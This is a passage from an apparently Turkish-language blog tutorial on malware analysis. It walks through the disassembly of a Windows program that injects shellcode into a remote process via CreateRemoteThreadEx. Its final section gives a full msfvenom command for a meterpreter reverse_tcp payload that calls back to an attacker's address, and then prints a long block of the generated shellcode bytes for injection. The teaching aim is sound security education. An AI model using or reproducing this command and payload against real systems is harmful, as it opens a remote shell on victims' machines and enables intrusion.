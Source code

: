 Kaldığımız yerden devam edersek; program tekrar bu konuma döndüğünde bir mesajı bastıracağını görmekteyiz çünkü ilerideki kodlarda printf fonksiyonu çağırılıyor: “Shellcode was Written on the Target!\n”

Bundan sonraki işlemlerde CreateRemoteThreadEx Fonksiyonu için işlemler yapıldığını görmekteyiz.

Öncelikle rbp+hHandle adresine 0 atandığını görmekteyiz. Ondan sınra ise fonksiyonda parametre olarak kullanılması için önce rdx’e oluşturulan bellek alanın başlangıç adresi aktarılmaktadır ardından hProcess’in adresi ise rax’a aktarılmaktadır. Ondan sonraki gelen parametrelere ise 0 verildiğini görüyoruz. Bu kodun decompiler’i şu şekildedir:

```c
hThread = CreateRemoteThreadEx(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)rbp+lpBaseAddress, 0, 0, 0, 0);
```

<img src="https://miro.medium.com/v2/resize:fit:640/format:webp/1*M2pqcyck_Xmg7Ou40U7jcg.png">
<h4> loc_140001776 Location </h4>

Buradaki kodlara baktığımızda birçok sayıda ekrana mesaj bastırıldığını ve ilerideki kodlarda WaitForSingleObject fonksiyonun çağırıldığını görmekteyiz. Bu ise uzaktan yerleştirilen zararlı kodun execute edilene kadar programın duraksayacağını göstermektedir. Fonksiyonu anlamak için yukarıdaki bahsedilen API hakkında bilgi alabilirsiniz.
0x5 — Senaryonun gerçekleştirilmesi

Az da olsa sizlere nasıl basit bir malware’in analiz edilebileceğinden bahsettim. Artık bu kadar çileden sonra bu beklediğimiz senaryoyu gerçekleştirelim.

Öncelikle shellcode oluşturmak için kali ortamında msfvenom’u kullanalım:

```shell
msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=<SALDIRGAN IP ADDRESS> LPORT=443 EXITFUNC=thread -f c --var-name=bekoShell
```

Bu komut ile oluşturduğumuz shellcode ile hedef sisteme erişim için bir meterpreter kabuğu oluşturacaktır. Çıktı şu şekilde olmalı:

```shell
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"
"\x48\x31\xd2\x65\x48\x8b\x52\x60\x51\x56\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x41\x51\x8b\x42\x3c\x48"
"\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b"
"\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x44\x8b"
"\x40\x20\x49\x01\xd0\x50\x8b\x48\x18\xe3\x56\x4d\x31\xc9\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9"
"\x0d\xac\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45"
"\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b"
"\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x41\x58"
"\x41\x58\x5e\x59\x48\x01\xd0\x5a\x41\x58\x41\x59\x41\x5a\x48"
"\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00"
"\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5"
"\x49\xbc\x02\x00\x01\xbb\xc0\xa8\xc6\x81\x41\x54\x49\x89\xe4"
"\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68"
"\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a"
"\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89"
"\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5"
"\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba"
"\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5"
"\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9"
"\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5"
"\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41"
"\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41"
"\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8"
```